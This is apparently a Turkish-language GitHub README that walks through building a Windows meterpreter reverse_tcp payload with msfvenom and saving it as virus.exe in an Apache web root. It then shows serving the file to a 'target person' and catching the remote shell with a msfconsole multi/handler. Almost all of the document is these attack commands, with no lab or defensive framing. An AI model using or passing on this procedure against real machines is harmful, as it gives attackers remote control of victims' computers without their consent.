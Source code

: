 ## Selam Ben linax Ve Bugun Sizlere Nasil Virus(payload) Nasil Olusturulur Onu Anlaticam.
### Oncelikle Terminali Aciyoruz Ve msfvenom Ile Komutumuzu Yaziyoruz.
### msfvenom -p windows/meterpreter/reverse_tcp LHOST=Local Ipniz LPORT=4444 -f exe > /var/www/html/virus.exe 
  
![Screenshot_2022-07-17_06_44_33](https://user-images.githubusercontent.com/100614268/179394888-468d8bdc-a63e-4727-9d5c-c055d0379a82.png)

### Burada Bilgisayara meterpreter Icin Bir reverse_tcp Olusturmasini Istiyoruz Ve Onu /var/www/html/virus.exe Icerisine Yolluyoruz.
### Daha Sonra Bunu Bir Servicede Aktif Etmemiz Gerek. Aktif Etmeden De Yapilir Ama Hedef Kisiye Daha Rahat Ulasabilmesi Icin Servicelerimizi Acicaz. Bunun Icin Terminale Sirasiyla Yaziyoruz.

### sudo service apache2 start
### sudo service apache2 status
  
![Screenshot_2022-07-17_06_45_23](https://user-images.githubusercontent.com/100614268/179394987-3e5f2793-89de-411e-b523-4f39b78a551e.png)

### Evet Bunun Anlami Artik Bizim Local IP mizi Bir Cihaz Web Tarayicisina Girerse Direk virus.exe yi Download Isticek. Bu Sayede Sadece Hedef Bilgisayara Kendi Local Ipnizi Girerek Bilgisayara payloadi Yerlestire Bilirsiniz. Peki Dosyayi Windowsa Atip Bir Yolla Calistirdiniz Diyelim. Devaminda Ne Yapmamiz Gerek?
  
![Screenshot_2022-07-17_06_45_59](https://user-images.githubusercontent.com/100614268/179395284-d205fc88-c31f-47e7-bf03-d654423a2bf5.png)

### Terminale msfconsole Yaziyoruz. Daha Sonra use multi/handler Yaziyoruz. Sonra show options Yaziyoruz Ve LHOSTU  set lhost 192.168.x.x  Seklinde Yazip local Ipnizi Dinleme Araci Yapiyorsunuz. Ve Artik Hazirsiniz. 
![Screenshot_2022-07-17_06_47_02](https://user-images.githubusercontent.com/100614268/179395205-91bc1d94-6ca9-4c6f-9bb7-e502ade40310.png)

### exploit yada run Komutlarini Girdikten Sonra Windowsa Erisirsiniz. help Yazarak Devam Ede Bilirsiniz.
